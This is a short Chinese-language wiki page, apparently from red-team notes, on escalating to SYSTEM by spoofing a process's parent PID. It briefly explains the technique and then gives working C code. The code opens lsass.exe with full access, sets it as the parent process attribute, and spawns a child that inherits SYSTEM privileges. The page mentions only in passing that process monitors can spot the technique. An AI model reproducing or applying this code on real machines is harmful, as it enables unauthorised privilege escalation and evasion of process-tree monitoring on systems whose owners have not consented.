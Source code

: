 ```yaml
---
description: PPID-Priv
---
```


# 通过伪装PPID提权到SYSTEM

## 简介

在指定父进程句柄的时候,子进程同时也会继承父进程的权限，这样的话我们也可以通过伪装PPID的方式进行提权，但是这样的技术会有一个较大的缺陷，如果使用process explorer等进程监控软件查看的话会显示在系统权限的进程下派生出了一个子进程，这样会有较大的特征,更容易会被发现，当然也可以通过其他技术手段进行为伪装。

ps:需要管理员权限

## 代码实现

```text
        STARTUPINFOEX sie = { sizeof(sie) };
        PROCESS_INFORMATION pi;
        SIZE_T cbAttributeListSize = 0;
        PPROC_THREAD_ATTRIBUTE_LIST pAttributeList = NULL;
        HANDLE hParentProcess = NULL;
        DWORD dwPid = 0;

        dwPid = FindProcessPID(L"lsass.exe");

            InitializeProcThreadAttributeList(NULL, 1, 0, &cbAttributeListSize);
            pAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, cbAttributeListSize);
            InitializeProcThreadAttributeList(pAttributeList, 1, 0, &cbAttributeListSize);
            hParentProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPid);
            UpdateProcThreadAttribute(pAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL);

            sie.lpAttributeList = pAttributeList;
            CreateProcessA(NULL, (LPSTR)"notepad", NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&sie.StartupInfo, &pi);

            DeleteProcThreadAttributeList(pAttributeList);
            CloseHandle(hParentProcess);
```

![](../.gitbook/assets/image%20%2840%29.png)

## LINKS

{% embed url="https://docs.microsoft.com/zh-cn/windows/win32/api" %}



